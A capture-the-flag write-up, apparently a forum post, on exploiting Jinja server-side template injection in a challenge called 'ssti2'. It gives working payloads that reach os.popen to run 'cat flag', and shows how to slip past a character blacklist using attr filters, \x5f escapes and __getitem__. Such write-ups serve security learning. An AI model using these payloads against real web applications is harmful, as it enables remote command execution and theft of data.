



Havent posted here in like four months wow ok anyways
### heres my ssti2 writeup dont kill me branson




When you submit the form, it is submitted to the /announce endpoint and rendered as a h2

Test for template evaluation using:
`{{11*6+1}}`
If the template engine is evaluating expressions, this should return:

(mandatory 67 joke)

Since the page renders 67, we know the input is being interpreted as a Jinja template expression, confirming the presence of SSTI.

Use the same payload as SSTI1 in order to try and read the flag: 

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}`


Clearly theres some sort of filter going on here


There is a character blacklist.

Regarding this hint, blacklisting characters is considered a bad input sanitisation strategy because it tries to block known bad patterns, but attackers can almost always find alternative ways to express the same thing. This approach is fragile because programming languages often allow multiple ways to represent the same operation.

### test for the blocked characters

`{{ _ }}` and `{{ . }}` are both blocked. In order to make our payload go through, we have to find substitutes for these characters.

`.` is used to access attributes of objects, like `os.system('cls')`. In order to bypass this, we can replace it with the usage of `attr`.


`_` is used in the Python internal classes, like `__builtins__`. In order to bypass this, we can use hex encoding: `_` becomes `\x5f`. Jinja strings follow Python string semantics. This means escape sequences such as: `\x5f` are interpreted as `_`. Therefore, `\x5f\x5finit\x5f\x5f` is evaluated at runtime as `__init__`.

Because of this flexibility, we can often reconstruct blocked characters or syntax at runtime using such workarounds.

### make the payload (pt. 1)

Make the necessary changes, and the payload becomes:

```
{{ 
    self|
    attr('\x5f\x5finit\x5f\x5f')|
    attr('\x5f\x5fglobals\x5f\x5f')|
    attr('\x5f\x5fbuiltins\x5f\x5f')|
    attr('\x5f\x5fimport\x5f\x5f')('os')|
    attr('popen')('cat flag')|
    attr('read')() 
}}
```




### backtrack

Something's wrong. Let's backtrack through the payload:


```
{{ 
    self|
    attr('\x5f\x5finit\x5f\x5f')|
    attr('\x5f\x5fglobals\x5f\x5f')|
    attr('\x5f\x5fbuiltins\x5f\x5f')
}}
```


Still an error. Backtrack again:


```
{{ 
    self|
    attr('\x5f\x5finit\x5f\x5f')|
    attr('\x5f\x5fglobals\x5f\x5f') 
}}
```



as shown by the highlight, unlike the other packages, in this situation `__builtins__` is a dictionary, not a path to the module. This matters because the next step of the exploit assumes attribute access:

`__builtins__.__import__`

Therefore, this exploit path probably won't work.

### using the module

In Python, dictionary indexing is done using `dict[key]`, and it is internally implemented using `dict.__getitem__(key)`. Therefore, `globals['__builtins__']` is equivalent to `globals.__getitem__('__builtins__')`.

To get the module from `__builtins__`, we would have to do something along the lines of `__globals__['__builtins__']`. However, the characters `[` and `]` are blocked as well.

Instead, we can try `getitem` instead:

``` 
{{ 
    self|
    attr('\x5f\x5finit\x5f\x5f')|
    attr('\x5f\x5fglobals\x5f\x5f')|
    attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|
    attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|
    attr('popen')('cat flag')|
    attr('read')() 
}}
```


